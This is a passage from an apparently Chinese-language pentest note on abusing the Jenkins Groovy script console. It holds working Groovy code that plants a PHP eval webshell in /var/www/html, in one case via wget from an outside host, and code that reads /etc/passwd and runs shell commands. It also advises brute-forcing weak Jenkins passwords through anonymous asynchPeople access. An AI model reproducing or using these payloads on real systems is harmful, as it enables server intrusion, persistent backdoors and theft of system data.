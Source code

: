 2.2 写webshell

```
println "wget http://shell.com/shell.txt -P /var/www/html/".execute().text

new File("/var/www/html/shell.php").write('<?php @eval($_POST[shell]);?>');


def webshell = '<?php @eval($_POST[shell]);?>'
new File("/var/www/html/shell.php").write("$webshell");


def execute(cmd) {
def proc = cmd.execute()
proc.waitFor()
}
execute( [ 'bash', '-c', 'echo -n "<?php @eval($" > /var/www/html/shell.php' ] )
execute( [ 'bash', '-c', 'echo "_POST[shell]);?>" >> /var/www/html/shell.php' ] )
//参数-n 不要在最后自动换行
```

2.3 读文件

```
try{

text = new File("/etc/passwd").getText();

out.print text

} catch(Exception e){

}

```

2.4 执行命令

```
def sout = new StringBuilder(), serr = new StringBuilder()
def proc = 'cat /etc/passwd'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

回显注意点

* Result: 0 表示成功写入
* Result: 1 表示目录不存在或者权限不足 写入失败
* Result: 2 表示构造有异常 写入失败
* 
jenkins可以对每个用户分配不同的权限，如Overall/RunScripts或者Job/Configure权限  
某些版本匿名用户可以访问asynchPeople 可爆破密码（通常很多密码跟用户名一样或者是其他弱口令\(top1000\)，尤其是内网）

##  3. 模拟低权限
